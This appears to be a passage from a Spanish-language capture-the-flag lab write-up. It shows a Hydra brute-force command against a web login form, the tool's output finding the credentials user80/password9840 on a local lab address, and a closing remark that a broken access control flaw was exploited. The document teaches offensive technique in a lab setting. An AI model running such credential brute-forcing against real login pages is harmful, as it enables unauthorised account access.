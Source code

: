 ```shell
hydra -L users.txt -P passwords.txt <IP> http-post-form "/login.php:username=^USER^&password=^PASS^:Credenciales incorrectas"
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-27 10:23:12
[DATA] max 16 tasks per 1 server, overall 16 tasks, 11025 login tries (l:105/p:105), ~690 tries per task
[DATA] attacking http-post-form://172.17.0.2:80/login.php:username=^USER^&password=^PASS^:Credenciales incorrectas
[STATUS] 3233.00 tries/min, 3233 tries in 00:01h, 7792 to do in 00:03h, 16 active
[STATUS] 3976.00 tries/min, 7952 tries in 00:02h, 3073 to do in 00:01h, 16 active
[80][http-post-form] host: 172.17.0.2   login: user80   password: password9840
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-27 10:25:51
```

Despues de un rato, vemos que hemos encontrado las credenciales:

```
User: user80
Pass: password9840
```

Ahora las probaremos en el `login`, una vez iniciado sesion con dichas credenciales veremos lo siguiente:

<figure><img src="../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

Con esto ya habremos completado la maquina y aprovechado la vulnerabilidad `BAC`.
